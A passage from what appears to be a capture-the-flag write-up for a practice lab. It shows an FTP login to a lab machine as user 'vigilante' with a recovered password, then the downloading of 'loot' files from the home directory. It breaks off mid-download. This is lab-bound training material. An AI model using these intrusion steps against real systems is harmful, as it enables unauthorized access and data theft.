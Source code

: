 Tried a few different conversions, found one that looks to be more like a password, try FTP again:

```text
root@kali:~/thm/lianyu# ftp 10.10.13.49
Connected to 10.10.13.49.
220 (vsFTPd 3.0.2)
Name (10.10.13.49:root): vigilante
331 Please specify the password.
Password: <<hidden>>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Success, we are in to the FTP server as user vigilante. Have a look around, grab any loot that looks interesting:

```text
ftp> ls -lsa
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 .
drwxr-xr-x    4 0        0            4096 May 01 05:38 ..
-rw-------    1 1001     1001           44 May 01 07:13 .bash_history
-rw-r--r--    1 1001     1001          220 May 01 05:38 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01 05:38 .bashrc
-rw-r--r--    1 0        0            2483 May 01 07:07 .other_user
-rw-r--r--    1 1001     1001          675 May 01 05:38 .profile
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
226 Directory send OK.

ftp> get Leave_me_alone.png
local: Leave_me_alone.png remote: Leave_me_alone.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Leave_me_alone.png (511720 bytes).
226 Transfer complete.
511720 bytes received in 0.64 secs (781.1157 kB/s)

ftp> get Queen's_Gambit.png
local: Queen's_Gambit.png remote: Queen's_Gambit.png
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Queen's_Gambit.png (549924 bytes).
226 Transfer complete.
549924 bytes received in 0.45 secs (1.1606 MB/s)

ftp> get aa.jpg
local: aa.jpg remote: aa.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for aa.jpg (191026 bytes).
226 Transfer complete.
191026 bytes received in 0.22 secs (847.9839 kB/s)

ftp> get .other_user
local: .other_user remote: .other_user
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .other_user (2483 bytes).
226 Transfer complete.
2483 bytes received in 0.00 secs (2.9936 MB/s)

ftp> get .bashrc
local: .bashrc remote: .bashrc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .bashrc (3515 bytes).
```